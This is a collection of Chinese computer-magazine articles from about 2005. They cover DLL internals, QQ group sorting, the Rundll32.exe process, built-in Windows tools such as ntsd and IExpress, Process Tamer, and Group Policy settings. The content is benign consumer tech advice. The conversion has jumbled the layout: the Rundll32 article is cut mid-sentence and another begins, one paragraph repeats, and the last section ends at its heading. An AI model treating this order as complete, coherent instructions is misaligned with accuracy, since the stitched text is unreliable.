    这个和我们最终用户关系不大，仅供了解。我们都知道编程工具有很多，比如 VB、VC、Delphi 等，如果好几个人合作来编写一个大的程序，那么可能有的人用 VB，有的人用 VC，每人负责的部分所使用的编程语言都不同，究竟放在哪个编译器中进行编译呢？这就好比一群来自各个国家的人在共同编写一篇文章，如果他们所使用的语言都不同，写出来的文章怎么可能凑到一起呢？而有了 DLL 后，可以让 VC 程序员写一个 DLL，然后 VB 程序员在程序中调用，无需为怎么将它们都编译为一个单独的 EXE 而发愁了。

+   ③节省内存
    如果多个应用程序调用的是同一个动态链接库，那么这个 DLL 文件不会被重复多次装入内存中，而是由这些应用程序共享同一个已载入内存的 DLL。就好比一个办公室中，很少会为每一个员工配置一台饮水机的，而是在一个公共位置放上一个饮水机，所有需要喝水的职员都可以共用这台饮水机，降低了成本又节约了空间。

+   ④共享程序资源
    包括刚才提到过的通用文件对话框在内，DLL 文件提供了应用程序间共享资源的可能。资源可以是程序对话框、字符串、图标，或者声音文件等。

+   ⑤解决应用程序本地化问题
    在下载了某个程序的汉化包后，打开汉化说明，经常可以看到用下载包中的 DLL 文件覆盖掉程序原来的 DLL，汉化就完成了。这些程序都是将执行代码和应用程序界面分开编写了，所以汉化者只需简单地将其中和程序界面相关的 DLL 汉化并发布即可。

## 求知若渴: 探究 DLL 的真相

谁知道 DLL 里究竟有多少函数，又有谁知道 EXE 调用了哪个 DLL 的哪些函数？其实，这个问题并不难解决。还记不记得本刊 2004 年第 6 期的《无间盗Ⅳ — 盗亦有盗》中介绍的分析 EXE 文件的工具 Dependency Walker（以下简称 Depends，下载地址：http://www.newhua.com/cfan/200517/depends.zip）？今天我们要用它当探险工具，把 DLL 真相探个通通透透。

### 1. 看看DLL里有多少函数

第一步：下载并解压 Depends，运行其中的 depends.exe，然后选择菜单“File→Open”（文件→打开），在文件选择框中选中需要分析的 DLL 文件并打开，此处选择 QQ 目录下的 QQZip.dll。

第二步：在程序左侧的树状栏中就列出了这个 DLL 使用了哪些其他 DLL 的功能函数（原来 DLL 中还可以调用其他 DLL），而右侧的两个分栏列表分别显示了函数输入及输出表，函数输出表即为该 DLL 提供给其他 EXE 或者 DLL 调用的函数的总列表。

第三步：函数输出表的 Function 栏中即为输出函数的名称（见图1），在QQZip.dll中共发现了2个函数：Unzip、Zip。因此可以判断该 DLL 在 QQ 程序中负责压缩和解压缩的任务。

### 2. 审审EXE 究竟用了哪个DLL

还是拿 QQ 来作为例子，在 Depends 中打开 QQ.exe，这时界面左侧的树状列表中显示的就是 QQ.exe 调用的 DLL 列表（见图2），如果展开这些 DLL 分支，还会发现其他的 DLL，这就说明 QQ 调用的这些 DLL 文件还有可能（几乎是肯定）再调用别的 DLL。这就好比买了一台新的 DVD 机，可能其中用的机芯是 SONY 的，而这个机芯里的一个小电容又有可能是别的公司的，这是同样的道理。

### 3. 用DLL看穿EXE真面目

刚才得到了 QQ.exe 所使用的 DLL 列表，其实通过这个列表，还能分析出很多别的信息。比如其中包含 MFC42.dll，所以可以判断 QQ.exe 是采用 VC（即 Visual C++）编写的，而包含 WSOCK32.dll 则说明这个程序带有网络通讯功能（废话！QQ 如果不能网络通讯还有什么用……）。以下是一个简表，大家在分析别的 EXE 时可以根据其所使用的 DLL 来对其功能进行初步判断。

### 4. DLL是个大宝库

除供应用程序调用函数的 DLL 外，还有另一种用来保存资源的 DLL，比如 QQ 目录下的 QQRes.dll，用 Depends 打开后发现没有任何输出函数，难道是一个鸡肋 DLL？可是改用资源工具 Resource Hacker（下载地址：http://www.onlinedown.net/soft/12420.htm）打开这个 DLL 后，就发现原来其中保存了这么多 QQ 的资源，包括图标、音乐、图片、字符串、对话框……

## 刨根问底: DLL 的寓言

DLL 引起的故障是很常见的，为什么会引起故障？遇到故障怎么解决？嘘～偷听一下 DLL 的对话，你就会明白了。

### 1. 从搬运工谈接口兼容性

在Windows 工地上，有一个名叫EXE 的包工头，他手下有很多称为DLL 的建筑工人。其中有一个专门负责搬运的DLL（暂且称为“搬运工A”），每次需要搬运水泥时，包工头EXE 都只要对他喊一声：“来！搬。”
过了一段时间，搬运工A 觉得自己的效率太低，于是从原来的每次搬1 袋水泥改成了每次搬3袋水泥。改进了搬运方法后，EXE 包工头仍然每次只是喊一声：“来！搬。”却不知搬运工A 已经改变了搬运的方法。
但又过了一段时间，包工头EXE 把搬运工A给辞退了，从别的工地上找来了另一个DLL（暂且称为“搬运工B”）。这个搬运工在别的工地的时候，搬运东西特别快，所以包工头EXE 决定把搬运工作给“升级”一下。但真正开始工作时，包工头才发现出了问题……现在不管叫几遍“来！搬。”这个新来的搬运工B 都不知道究竟应该搬什么。
上面的例子中，搬运工A 改进搬运方法，但EXE 调用它的方法仍不变，这就是DLL 升级的原理，改进了内部的实现方法，但调用接口不变，这样EXE 文件不用跟着升级，就能调用新版本的DLL 了。而搬运工B 的故事告诉我们，不管新版本的DLL 效率多高，如果接口（可以理解为DLL 中输出的函数名）与原来的不一致，那么EXE 就不知道也无法调用它了。

### 2. 登记身份证的DLL

在系统故障中，有很多都是由于DLL 文件没有注册造成的，比如Windows XP 的压缩文件夹功能出现故障就很有可能是系统目录中的zipfldr.dll 没有注册造成的，这类故障的解决方法也大多是运行如下命令：

```
regsvr32 DLL文件名
```

很多人不理解为什么要这么做，是不是所有的DLL 都能这样做呢？
其实系统中有两种DLL，一种是不需注册即可使用的，另一种则是必须经过系统登录（即注册）才能使用的。就好像一个临时工和一个记录在员工名单上的长期合同工的区别一样。如何才能区分这两种DLL 呢？方法很简单，用刚才的Depends 打开这个DLL，同样是看函数输出表，如果其中包含以下两个函数（前者是注册DLL，后者是反注册DLL），那么就一定是需要注册才能使用的DLL了。

```
DllRegisterServer
DllUnregisterServer
```

而 regsvr32 这个命令，实际上就是调用DLL中的这两个函数（“regsvr32 /u DLL文件名”调用的即为DllUnregisterServer反注册函数）。

### 3. 插件DLL 的秘密

Winamp、Foobar2000 等很多软件都具有插件功能，从网上下载一个DLL 放在插件目录下就能让程序支持新的功能，这是怎么做到的呢？就拿时下流行的播放软件“千千静听”来举例吧。
“千千静听”的插件目录在该软件安装目录的Addin 子目录下（程序的插件目录一般都会以“Plugins”、“Addin”来命名）。在“千千静听”的插件目录中有许多DLL 文件，比如tt_asf.dll、tt_rm.dll 等，从文件名中就能看出这些DLL 是用来让这个播放器支持各种不同类型的音频文件的。同样，用Depends 打开这些文件，你就会发现这些文件的输出函数表中都包括一个同样的函数：ttpGetSoundAddIn。
这就是插件的秘密，各种支持插件功能的程序在发布时，都会同时发布一份插件协议，协议中规定了该程序将要调用的插件DLL 中必须包含的函数名称及相关的参数规则，然后第三方的插件程序员在编写这个程序的插件时就根据这个插件的标准来编写DLL 的输出函数。

| DLL文件名 | 可以判断出的EXE信息 |
| :--- | :--- |
| MFC42.dll | 使用VC5.0/6.0编写。 |
| VBRun*.dll | “*”代表数字版本号，使用VB3.0/4.0编写。 |
| MSVBVM50.dll | 使用VB5.0编写，在Windows 98(SE)上自带该DLL。 |
| MSVBVM60.dll | 使用VB6.0编写，在Windows Me/2000/XP等系统上自带该DLL。 |
| ADVAPI32.dll | 可能会进行注册表操作。 |
| WSOCK32.dll | 具备网络通讯功能。 |
| WS2_32.dll | 具备网络通讯功能。 |
| WININET.dll | 具备HTTP浏览、下载等功能，典型的例子是浏览器、下载工具。 |
| WINMM.dll | 具备多媒体播放能力。 |
| DDRAW.dll | 游戏、高级图像处理工具。 |
| D3D*.dll | 3D游戏，或者动画处理工具。 |

①对于插件tt_asf.dll

> ttplayer.exe(“千千静听”主程序)对tt_asf.dll说:“我要调用你的ttpGetSoundAddIn函数！”
tt_asf.dll回答:“OK。”
②如果把不相关的DLL放进AddIn目录ttplayer.exe对未知DLL说:“我要调用你的ttpGetSoundAddIn函数！”
tt_asf.dll回答:“那是什么函数? 从来没听说过！”

> (熊猫盼盼)

## QQ分组排序,其实很简单

### QQ 缺陷:分组却不能排序

QQ的“好友分组”功能是将好友按照不同的类型进行分类的功能，比如小编狂PK的QQ中就有“同事”、“PLMM”、“作者”、“常用作者”等若干分组，可是由于分组建立顺序的关系，而导致了分组并没有按照原来希望的方式排列，比如“作者”和“常用作者”中间却是“PLMM”，严重影响工作啊……

#### 1. 分组为何需要排序

QQ 的“好友分组”功能是将好友按照不同的类型进行分类的功能，比如小编狂PK的QQ中就有“同事”、“PLMM”、“作者”、“常用作者”等若干分组，可是由于分组建立顺序的关系，而导致了分组并没有按照原来希望的方式排列，比如“作者”和“常用作者”中间却是“PLMM”，严重影响工作啊……

#### 2. 无解的缺陷

当需要对分组进行排序时，你就会发现QQ 本身并不提供这个功能，咨询腾讯客服后得知: QQ 不支持分组排序功能。而经过搜索后发现，网上找到的大多数所谓的QQ 分组排序技巧都是伪技巧，提供的方法大意是在QQ 的组名称前加上数字序号，QQ 就会对组自动排序，经测试后发现该技巧只能在TM中实现，切换回QQ 之后组的顺序又会恢复原状。

### 请来帮手:另一只企鹅

QQ 有很多非官方的兼容客户端程序，它们可以运行在除Windows 之外的其他平台（如Linux、Mac OS 等）上，其中我们曾经介绍过的LumaQQ 是使用平台无关性语言Java 编写的，因此支持包括Windows 在内的各个平台，我们能不能从它下手呢? 经过试验，我们找到了一种非常快速的解决方法。

#### 1. 下载安装LumaQQ

+   第一步: 在IE中打开http://lumaqq.linuxsir.org/main/?q=node/231，找到网页中“LumaQQ 2004T 初始安装包”中“For Windows”的部分，然后下载“带JRE”（即Java 运行库）的版本，解压到本地硬盘中。
+   第二步: 找到网页中“LumaQQ 2004T Patch”部分，下载最新的升级补丁（至发稿时，最新的升级是“2005-08-26 21:00”发布的那个版本），解压后用其中的文件覆盖刚才初始安装包解压目录中的同名文件（一般在lib 子目录下）。
+   第三步: 此时你的LumaQQ 已经是最新版本了，运行其目录下的lumaqq.bat 即可运行，然后用你的QQ 账号登录即可（第一次登录时需要下载用户数据，请耐心等待）。

#### 2. 修改分组 XML 文件

用你的QQ 账号登录后，在LumaQQ 目录下就会生成一个以登录的QQ 号码命名的子目录，在该目录下的groups.xml 即为QQ 分组的数据文件。用UltraEdit（下载地址:http://nj.onlinedown.net/soft/608.htm）或EmEditor（下载地址:http://nj.onlinedown.net/soft/2640.htm）等支持Unix 文本格式的编辑器打开groups.xml。需要注意的是，用UltraEdit打开时可能会询问“Do you want to convert groups.xml to DOS format?”，点击“No”。在编辑器中可以看到，用户名都是以诸如“<XUser nick="" organizationId="0" userFlag="" cardName="" member="" talkMode="" qq="" headId="" pinned="" windowY="" windowX="" />”的形式记录的，而好友分组的格式则是这样:

```
<XGroup name="" type="FRIEND_GROUP">
<XUser ...>
<XUser ...>
</XGroup>
```

### 笨有笨的办法:删了重建

在好友分组比较少的情况下，即使没有工具，我们也能通过手动删除和重建完成分组排序。但如果分组较多，还是推荐使用LumaQQ 排序的方法。

#### 1. 三杯水对换原理

大家都知道，如果要将两个杯子中的水对换，那么必须要求第三个杯子来作为临时存放工具。同样地，我们在QQ 中建立临时分组，也可以完成两个分组中好友的对换，然后再将分组改名就能实现分组的位置交换。

+   第一步: 右击QQ 界面好友列表空白处，选择“添加组”，随意为这个临时组起个名字，如“临时”。
+   第二步: 框选要交换位置的分组A 中的所有好友，拖动到临时组中。
+   第三步: 将要交换位置的分组B 中的所有好友，框选并拖动到已经空了的分组A 中。
+   第四步: 将在临时组中的所有原分组A 的好友用框选方式全选后拖动到分组B 中，然后右击分组A，选择“重命名”，命名为分组B，同样方法将分组B 命名为分组A，这样就实现了分组AB 的位置对换。

#### 2. 完全重建法

+   第一步: 按照想要的顺序在QQ 中新建好友分组，不必管原来存在的分组。
+   第二步: 将原来分组中的好友用框选加拖动的方式移动到新建立的分组中。
+   第三步: 完成所有分组好友的移动后，删除原来的分组，现在只剩下预定顺序的新分组了。

> (张之)

## 名副其实的Rundll32.exe

小菜已经养成了一种习惯，有事没事打开“任务管理器”观察系统中的进程列表，听大嘴说经常留意系统进程列表就能做到“心中有谱”，及时发现系统新增进程，感觉进程可疑时就能迅速应对了。这天启动系统后他突然发现进程列表中多出了一个“RUNDLL32.EXE”进程，昨天还没有呢，于是按照大嘴平时传授的方法，先搜索一下这个文件，发现它位于System32目录中，难倒是正常的系统文件? 怎么会突然自己运行了呢? 于是又在开始菜单“运行”栏中输入“msconfig”，打开系统配置实用程序查看系统中的启动项目，发现了它的启动项目（见图），感觉并不是自己必须要用到的，于是就取消了这个启动项目，并在“任务管理器”中结束了“RUNDLL32.EXE”进程，也没发现什么异常。谁知重新启动系统后又出现了这个进程，而且它的启动项目也自动恢复了，这是怎么回事呀! 小菜一时拿不定主意了，只好去找大嘴。

### 名副其实的DLL 加载工具

Rundll32.exe 其实是一个很重要的Windows 系统文件，我们把它分成两部分就比较容易理解了:run（运行）和dll（动态链接库），它的功能正如其名称一样，用来调用和执行那些不能作为程序单独运行的DLL 文件中的函数来实现具体功能，而最后的32 则表示运行的是32 位的DLL 文件（下文中有解释）。和上期介绍的Svchost.exe 进程有些类似，Rundll32.exe 进程也可以同时出现多个，而且同样在“任务管理器”中只能看到Rundll32.exe 进程，看不到真正运行的DLL 文件，因此可能会被恶意软件和病毒木马利用来入侵系统，但它们也有不同的地方，每个Rundll32.exe 进程启动时只能加载一个DLL 文件，这种特性使得我们更容易分析它的运行。

### 火速链接

如果你对DLL文件和其内部函数的原理不太了解，可以参考本刊2005 年第17 期的《动态链接库Windows 的活动大陆》。

### 现场解决小菜难题

#### 1. “大嘴工具箱”里的宝贝:APM

Rundll32.exe 进程很少常驻于系统内存中，因此通常在系统进程列表中是看不到它的，而且Rundll32.exe 独立运行是毫无作用的，如果进程列表中出现了Rundll32.exe 进程，说明系统中一定有常驻内存的DLL 文件通过它在运行了。下面来看看小菜电脑中的Rundll32.exe 是怎么回事，不过使用Windows 自带的“任务管理器”无法对Rundll32.exe 进程进行更深入的分析，大嘴从“大嘴工具箱”中找出了一个更专业的进程工具——Advanced Process Manipulation（以下简称APM），别看它个头不大，却具备许多其他同类工具没有的本领，在下文中我们会逐步介绍这些特殊功能的应用。

+   Advanced Process Manipulation 小档案
    软件版本:1.0
    软件大小:109KB
    软件性质:免费软件
    适用平台:Windows 9x/2000/XP
    下载地址:http://www.diamondcs.com.au/downloads/apm.exe

#### 2. 找出幕后黑手:检测Rundll32.exe调用的DLL文件

APM 界面很简单，在上面的进程列表中找到“rundll32.exe”进程，右击该进程，在弹出菜单中选择“Get Command line”，在打开对话框中可以看到它启动DLL 文件的命令是“rundll32 C:\PROGRA~1\NEWDOT~1\NEWDOT~1.DLL,NewDotNetStartup ~s”，这和前面小菜在“系统配置实用程序”（Windows98/XP 自带的实用工具，运行“msconfig.exe”即可打开）中看到的启动项命令是一样的。

#### 3. 防止再生:从内存中把DLL赶走

不过经常会遇到Rundll32.exe 进程被结束后仍会“再生”的情况，也就是说Rundll32.exe 进程即使在“任务管理器”中被强制关闭，几秒后仍会重新出现。要删除DLL 就必须从根源着手……## 软件超级模仿秀！系统潜能大挖掘

安装完Windows后，本能的你就会向其中安装各种各样的软件。这样做有两个很明显的缺点：

-   1. 虽然Windows 2000/XP比起Windows 98已经大大提高了稳定性，但安装过多软件仍可能导致系统越来越慢。
-   2. 有时只需软件的部分功能，却要为此购买整套软件。

在很多时候，其实并不需要安装第三方软件就能实现所需的功能，来试着挖掘一下Windows的潜能吧！

## Windows 教你读英文单词

**模仿对象:** 词霸
**实现功能:** 语音朗读

上网时，经常会遇到一些陌生的英语单词，英语高手可以随口读出正常的发音，可是大多数就不得不求助于词典上的音标，或是使用词霸等第三方软件来朗读正确发音了。实际上，Windows XP自带的语音功能就能解决你的问题。

**使用方法:** 点击“开始→设置→控制面板”，在“控制面板”中双击打开“语音”，然后在弹出的“语音属性”窗口中将要朗读的陌生单词输入“使用下列文字预览语音”文本框中，点击其右侧的“预听语音”按钮（见图1）。其他安装了微软语音(Text to Speech, 简称TTS)引擎的Windows系统也具有此功能，如果你的系统中没有语音功能，可从下面的地址中下载组件包安装。

**英文语音:** http://www.newhua.com/cfan/200518/mstts51.rar
**中文语音:** http://www.newhua.com/cfan/200518/mstts51c.rar

> **小提示:** 微软语音引擎能朗读单词，如果要解答单词，还是建议安装词霸等软件或访问词霸在线 http://cb.kingsoft.com。



## 没有压缩软件也做自解压包

**模仿对象:** 压缩软件
**实现功能:** 制作自解压包

WinZip、WinRAR都是共享软件，而免费的压缩工具要不就是命令行的，要不就是支持的格式非常少。其实在Windows中已经集成了一款压缩工具IExpress，利用它还能做出自解压包。

**使用方法:** 通过“开始→运行”打开iexpress.exe，弹出“IExpress Wizard”(IExpress向导)界面，选择“Create new Self Extraction Directive file”点击“下一步”，再选择“Extract files only”(只执行文件解压缩操作，IExpress还能用来制作安装程序，现在我们只需要它实现自解压功能，所以选择此项)并进入“下一步”，随便设置一个解压窗口显示的标题(比如：几张风景图片)，一路下一步直至“Packaged files”(打包文件)，点击“Add”按钮选择要添加到压缩包中的文件(可配合Shift或Ctrl进行多选)，接着再次一路“下一步”直至“Package Name and Options”(压缩包名称和选项)，点击“Browse”选择压缩包生成位置并输入一个文件名(如：几张图片.exe)，接下来都采用默认设置持续点“下一步”直至完成即可。

## 中了流行病毒却没有安装杀毒软件

**模仿对象:** 杀毒软件
**实现功能:** 查杀流行病毒

冲击波、震荡波、狙击波，一波又一波的病毒利用Windows的漏洞疯狂传播，而很多朋友并没有养成良好的安全习惯，没有安装有效的杀毒软件或没有及时更新病毒库。当系统中了这类病毒，却发现自己还没有装杀毒软件时，那该怎么办呢？微软似乎对Windows的漏洞越来越关注了，偷偷在Windows XP中集成了一个流行病毒专杀工具Microsoft Windows Malicious Software Removal Tool。

> **小提示**
> 这个杀毒工具只推荐在紧急情况下救急使用，不具备杀毒软件的实时防护功能。

## Rundll32.exe 和 Rundll.exe 的区别

在Windows 98中除Rundll32.exe文件外，还有一个Rundll.exe文件，它们都位于Windows目录中，两者区别是前者用来运行32位的DLL文件，而后者则是运行16位的DLL文件。但Windows XP由于使用的是NT内核，其代码都是纯32位的，所以只有一个位于Windows\System32目录的Rundll32.exe文件，而没有Rundll.exe文件，这一点是一定要弄清楚的，因为有一些病毒木马程序正是利用了大家对这个知识的模糊认识，在Windows\System32目录中添加名为Rundll.exe文件，例如爱情森林、史莱姆病毒、SchoolBus木马等，如果你在Windows XP的进程列表中发现了这个名称，那就一定要引起注意了，可以肯定它是恶意性质的程序。当然，也有一些病毒木马会假冒Rundll32.exe进程，这时可以在APM中查看其进程文件路径是不是在System32目录，如果不是的话，就很可能是病毒木马程序了。

> **大嘴有话说:** 许多朋友在结束进程并删除病毒文件Rundll.exe后，系统无法运行任何EXE文件了，这是因为可恶的病毒关联了EXE文件，这样当你运行任何程序时都会打开病毒。如果出现这种情况，你可以把注册表编辑器程序文件名“regedit.exe”修改为“regedit.com”，然后再运行注册表编辑器打开[HKEY_CLASSES_ROOT\exefile\shell\open\command]主键，将右侧的默认键值数据修改为“"%1" %*”（不含外侧中文引号）即可。

### 特殊的快捷方式

虽然Rundll32.exe有时可能会为恶意程序入侵系统提供便利，但也可以为电脑操作带来方便，利用其DLL文件载入功能，可以快速打开系统控制面板的各个选项卡及其他一些系统控制功能。

### 1. 打开控制面板选项卡

在Windows XP开始菜单“运行”栏中输入“rundll32 shell32.dll,Control_RunDLL SYSDM.CPL,,2”后回车即可打开系统属性中的“硬件”选项卡，是不是感觉很有意思？其实还可以用类似命令打开所有的控制面板选项卡，其命令格式为：Rundll32.exe shell32.dll,Control_RunDLL Filename.CPL,,n

这里的“Filename.CPL”是指要打开的控制面板项目对应的CPL文件，在Windows\System32目录中可以找到这些文件，双击打开就知道每个文件对应的是哪个控制面板项目了；后面的“,n”则表示要打开的选项卡序号，这个序号是从0开始的。但在输入时要注意“Control_RunDLL”部分的大小写是不能搞错的，否则会运行错误。按照这个规律，其他运行命令例如：

rundll32 shell32.dll,Control_RunDLL \打开控制面板窗口
rundll32 shell32.dll,Control_RunDLL desk.cpl,,3 \打开显示属性的“设置”选项卡

### 2. 打开系统控制功能

在“开始”菜单“运行”栏中输入“rundll32.exe user32.dll,LockWorkStation”（注意逗号后面部分内容的大小写）可以快速锁定系统，同样的命令还有“rundll32.exe desk.cpl,InstallScreenSaver c:\windows\system32\logon.scr”，可以将指定屏幕保护程序logon.scr设置为当前屏保，并打开屏幕保护属性设置窗口。另外，在Windows 98中也有一些使用Rundll.exe来运行的命令，例如大家经常在媒体上看到的“rundll.exe user.exe,exitwindows”关机命令和“rundll.exe user.exe,exitwindowsexec”重启命令。

为了方便，我们还可以把这些命令制作成特殊功能的快捷方式，例如制作锁定系统的快捷方式。在桌面上单击鼠标右键，选择“新建→快捷方式”，首先输入命令“rundll32.exe user32.dll,LockWorkStation”，单击“下一步”，然后再输入快捷方式名称“锁定系统”，单击“完成”按钮即可。当然，你还可以右击这个快捷方式，选择打开“属性”对话框，修改这个快捷方式的图标并设置快捷键，以方便使用。

当然，以上只是介绍了Rundll32.exe命令的一部分，其他更多的命令限于篇幅无法逐一列出，所以大嘴将它的命令列表收集整理成为TXT文件，大家可以从http://www.newhua.com/cfan/200518/Rundll32.txt下载得到。
（软件DIY）

## 命令行下的“进程杀手”

**模仿对象：** 进程管理软件
**实现功能：** 进程查看/中止

Windows自带的“任务管理器”功能实在太弱，要是系统中出现了病毒木马之类的，你第一个会想到的就是中止它们的进程，可是用“任务管理器”中止进程经常会收到“权限不足”的错误提示。如果你不想安装第三方进程管理工具，那就试试系统中自带的命令行工具吧。



使用方法：按“Ctrl + Alt + Del”选择打开“任务管理器”，在“进程”选项卡的进程列表中找到需要中止的进程；查看PID列的值，如果你没有找到PID列，可以选择菜单“查看→选择列”，然后勾选“PID（进程标识符）”点击确定（见图2）。点击“开始→运行”，在运行框中输入CMD.EXE回车打开“命令提示符”窗口，接着键入如下命令（其中的PID即为刚才查看的需要中止的进程的PID值）：
ntsd -c q -p PID
这条命令的运行权限是系统调试级别的，因此可以中止大部分进程。

> **小提示**
> Windows XP中无需打开“任务管理器”也能找出进程的PID值，方法是在“命令提示符”下运行“tasklist”命令。

最后给出Windows可替代软件功能表，供大家参考。

| Windows自带功能/组件 | 替代的软件 | 附加说明 |
| :--- | :--- | :--- |
| Windows Movie Maker | 视频处理软件 | 系统为Windows Me/XP |
| Windows Media Player | CD转MP3及MP3转CD工具 | 同时还能将CD转为WMA或将WMA转为CD |
| CD写入向导 | 刻录软件 | 系统为Windows XP，在“我的电脑”中把要刻录的文件拖动到刻录机盘符中然后按左侧任务提示操作 |
| 图片与传真查看器 | 照片打印软件 | 参考本刊2005年第9期《单张多图 看我的》 |
| 远程桌面 | 远程控制软件 | 参考本刊2005年第14期《朋友有难 “远程桌面” 替你跑腿》 |
| NetMeeting | 远程会议（视频）软件 | 另外可以替代IRC聊天软件的客户端 |
| PrintScreen键 | 截图工具 | 按住Alt再点PrintScreen键就能截取当前窗口的图片 |
| Windows Firewall | 网络防火墙 | 入门级的防火墙，在本刊2005年第12期的《Windows 防火墙安全鉴定书》中详细介绍了它的优缺点 |

## 没有硬的来软的

超线程(HT)是Intel新款P4处理器才具有的一项功能，这项技术能显著提高计算机在多任务并行时的处理能力。但大多数人所使用的CPU并不具备这个功能，并且近期没有升级硬件的打算。

最近笔者试用了一款叫做Process Tamer，它能实现与超线程技术类似的功能，即根据程序运行情况自动分配CPU时间。那么，这款软件究竟可以解决哪些问题呢？看看下面的典型例子：

-   (1)使用QQ/MSN同时多人视频时，系统进行其他操作变得异常迟缓。
-   (2)打开包含较多图片、Flash、视频的网页时，IE界面无法自动刷新，其他程序也陷入假死。

**Process Tamer 小档案**
软件版本：2.00.15
软件大小：1.3MB
软件性质：免费软件
运行环境：Windows 2000/XP
下载地址：http://www.newhua.com/cfan/200517/protn2015.exe

下载安装这个软件后，屏幕右下角的系统托盘中就出现了一个天平的图标，这样Process Tamer就会自动平衡各个进程对CPU的资源占用，提高多任务间切换的速度。
由于Process Tamer的自动调整机制可能造成一些问题，比如在CPU占用率高时自动降低正在进行记录操作的Nero进程优先级，有可能把盘刻“飞”，所以还需要手动更改一些设置。
第一步：右击系统托盘中的Process Tamer图标，选择“Configure”（设置），打开配置面板。
第二步：在弹出窗口中切换到“Processes”（进程）标签，在其下方的列表中就显示了当前已经运行的进程（CPU占用低于1%的默认不显示），找到需要更改的进程，本例中我们选择nero.exe，在其“Explicit Rule”（显式规则）列的下拉列表中选择“Ignore”（忽略），点击“确定”（见图）。

## 免费升级超线程



> **小提示**
> 在配置界面中去除“Hide<1%CPU”(隐藏CPU占用<1%的进程)的勾选就能显示所有进程。

## 原理与误区

很多文章都把这个软件神话了（包括有些大媒体的文章），其实它的作用只能说是用软件方式改善多任务的使用状况，与真正的基于硬件的超线程技术是有区别的。而有的文章却说“极力推荐各位赛扬D处理器用户们使用这个软件”，这就有点“伪科学”的嫌疑了。
Process Tamer实现多任务速度优化的原理是：在系统出现CPU高负载运行时，降低占用CPU时间最多的进程的优先级，提高那些被别的进程抢占CPU时间而导致响应迟滞的进程的优先级，这样就能降低系统出现假死的概率。经过测试发现，在运行Process Tamer时，系统并没有启动新的服务，所以判断该程序是运行在应用程序层，而非系统服务层的，也就是说，该软件自身的优先级切换功能也受到系统速度的影响。
（咖啡不加糖）

## 有勇有谋，智斗组策略三大“顽疾”

对于工作组里的计算机来说，可以将组策略看成是注册表的一个友好的图形化设置界面，能够方便我们更好、更安全地修改相应的注册表键值。如何使用组策略来更改系统设置，网上可以找到的资料实在太多。但组策略有很多不方便的地方，却很少有人解决。今天就让我们针对组策略的三大“顽疾”，来逐个击破。

**特别注意**
①如果没有特别说明，本文以Windows XP Professional(系统安装在C:\WINDOWS)为例进行介绍。
②Windows XP Home版本没有“组策略编辑器”。
③权限设置需要硬盘分区格式为NTFS，并且在“文件夹选项”中去除“使用简单文件共享”的勾选。

## 顽疾1：组策略让用户吃“大锅饭”

**1. “用户配置”不针对单个用户**
运行gpedit.msc打开“组策略编辑器”，观察左侧的分支你就会发现组策略分为两个部分：“计算机配置”和“用户配置”，但我们并不能设置其中的“用户配置”部分仅对特定用户生效。不管是“计算机配置”还是“用户配置”，都会作用于任何用户。两者区别是对“计算机配置”的修改最终加载到[HKEY_LOCAL_MACHINE]注册表项，会在用户登录前生效；而对“用户配置”的修改会加载到[HKEY_CURRENT_USER]注册表项，只有在用户登录以后才生效。
**2. 组策略生效的“秘密”**
组策略的“用户配置”部分保存在C:\WINDOWS\system32\GroupPolicy\User\Registry.pol文件中（下文中还会提到存放“计算机配置”的文件，在不同目录下但文件名也是Registry.pol），当用户登录以后，会将该Registry.pol文件里的内容写到[HKEY_CURRENT_USER]注册表项中，这样组策略的设置内容就会生效。
**3. 权限叫停，谁敢不从**
如果对该Registry.pol文件设置NTFS权限，阻止特定用户对该文件的访问，那么就相当于阻止将组策略中的“用户配置”应用于该用户。这里假设以阻止Test用户应用组策略的“用户配置”为例，介绍具体设置步骤。



首先右击该Registry.pol文件，选择菜单“属性”。切换到“安全”选项卡，点击“添加”按钮添加Test账户，然后选中“组或用户名称”列表中刚才添加的Test账户，在下方的“Test的权限”中勾选“读取”权限右侧的“拒绝”复选框(见图)，点击“确定”保存设置。
经过设置后，当Test用户登录到系统时，就无法读取C:\WINDOWS\system32\GroupPolicy\User\Registry.pol文件，这样组策略中所有“用户配置”的修改部分不会应用到Test用户。

## 顽症2：组策略 + 注册表 = 迷雾重重

### 1. 比比文件，挖出组策略修改对应的注册表键值

大多数组策略中的设置最终会写入注册表，所以通过修改相应注册表键值也可以得到相同设置效果。而在“组策略编辑器”中，我们只能找到设置选项的描述，却无法找到注册表相关键值的对应关系。

本文前面部分提到组策略的“用户配置”部分保存在C:\WINDOWS\system32\GroupPolicy\User\Registry.pol文件中，如果在“组策略编辑器”中设置了某个策略项，再打开该Registry.pol文件进行对比，岂不是就能找出其对应的注册表位置了吗？下面就以组策略中“用户配置→管理模板→系统→阻止访问注册表编辑器”的策略项为例进行试验，在“组策略编辑器”中将该项设置为“已启用”，然后用“记事本”打开该Registry.pol文件，即可看到对应的键值“用户配置”里的“阻止访问注册表编辑器”策略项对应[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]注册表项下的DisableRegistryTools键值。组策略中的“计算机配置”部分也能用类似的方法搞定，用“记事本”打开C:\WINDOWS\system32\GroupPolicy\Computer\Registry.pol文件，即可找到组策略的“计算机配置”部分所对应的注册表项。

### 2. 与众不同的“本地安全策略”

“本地安全策略”的情况有一点不同，对“本地安全策略”的修改不会写入Registry.pol文件中，而是会写到C:\WINDOWS\security\Database\secedit.sdb文件中。由于这个secedit.sdb采用了数据库文件格式，所以无法用文本编辑器查看该文件了。但对于“本地安全策略→本地策略→安全选项”，可以用下面方法找出策略项与注册表键值的对应关系：

运行regedit.exe打开“注册表编辑器”，找到[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SeCEdit\Reg Values]，可以看到该注册表项下有多个子项，其中每一个子项名称，都对应某个安全选项的注册表键值的实际路径。比如其中有一个子项名为“MACHINE/Software/Microsoft/Driver Signing/Policy”，其下的字符串键值DisplayName的数值数据为“未签名驱动程序的安装操作”。这表明“本地安全策略→本地策略→安全选项”下的“未签名驱动程序的安装操作”策略项等效于[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Driver Signing]项下的二进制键值Policy。

## 顽症3：“流氓”策略让系统寸步难行

